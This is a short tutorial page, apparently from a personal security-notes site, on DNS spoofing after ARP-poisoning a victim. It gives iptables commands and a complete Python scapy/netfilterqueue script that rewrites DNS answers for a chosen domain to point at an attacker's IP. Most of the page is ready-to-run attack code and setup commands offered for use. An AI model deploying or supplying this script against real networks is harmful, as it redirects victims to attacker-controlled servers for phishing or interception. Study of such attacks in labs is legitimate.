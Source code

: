 ```yaml
---
title: "DNS spoofing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can spoof DNS answers, by modifying the rdata field in the DNS Response request packet.

After spoofing the rdata field will contain a spoofed ip address of a attacker server instead of the original servers IP address.

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

```mk
echo '1' > /proc/sys/net/ipv4/ip_forward
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```mk
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

```python
import netfilterqueue
from scapy.all import IP
import scapy.all as scapy


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "nrc.nl" in qname:
            print("[+] Spoofing target")
            answer = scapy.DNSRR(rrname=qname, rdata="192.168.178.12")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(str(scapy_packet))

    packet.accept()



queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
